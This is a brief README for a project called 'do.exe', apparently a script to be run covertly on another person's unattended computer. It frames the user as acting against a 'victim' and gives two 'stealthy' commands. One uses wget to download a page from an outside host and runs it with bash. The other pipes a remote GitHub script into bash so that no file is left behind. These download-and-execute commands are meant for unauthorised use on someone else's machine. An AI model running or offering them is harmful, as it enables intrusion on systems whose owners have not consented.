 # do.exe

## Get started

```
bash features.sh
```

## Stealthy mod

### Speed mod

You are in a panic state, your victim can come from one moment to another and you need to execute the script at full speed without go in GitHub:
```
wget croissant.do.umontp.fr && bash index.html
```

### No trace

Run the script without saving the script file, and without using dns:

```
bash <(curl https://raw.githubusercontent.com/LeoDevSecOps/do.exe/main/features.sh)
```
